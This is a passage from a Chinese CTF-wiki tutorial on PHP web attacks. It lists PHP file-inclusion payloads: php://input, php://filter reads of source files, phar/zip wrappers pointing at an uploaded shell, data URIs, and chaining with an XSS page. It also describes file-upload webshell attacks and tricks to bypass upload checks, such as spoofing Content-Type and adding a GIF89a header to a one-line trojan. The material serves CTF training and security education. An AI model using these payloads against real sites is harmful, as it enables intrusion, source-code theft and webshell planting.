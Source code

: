 - [利用 PHP 流 input得到原始POST数据](https://blog.csdn.net/niexinming/article/details/52623790)

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- [利用 PHP 流 filter](http://www.php.net/manual/zh/wrappers.php.php)

  ```
  ?file=php://filter/read=convert.base64-encode/resource=index.php
  ?file=php://filter/read=string.rot13/resource=flag #如果过滤了base64可以用rot13
  ```

  需要 `allow_url_include=On` 。

- 打包之后上传，利用phar或者zip协议读

  ```
  ?file=phar://./uploads/1.jpg/shell
  ?file=zip://./uploads/1.jpg%23shell
  ```

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 执行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

## 文件上传[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_4)

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

### 绕过上传检查[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_5)

- 前端检查扩展名

  抓包绕过即可。

- 通过`Content-Type` 检测文件类型

  通过代码：`if($_FILES['uploaded']['type'] =="image/jpeg")   //获取文件上传的类型`限制上传类型，抓包修改 `Content-Type` 类型，使其符合白名单规则。

- 文件头检查绕过

  在一句话木马前面加入GIF89a，然后将木马保存为图片格式。
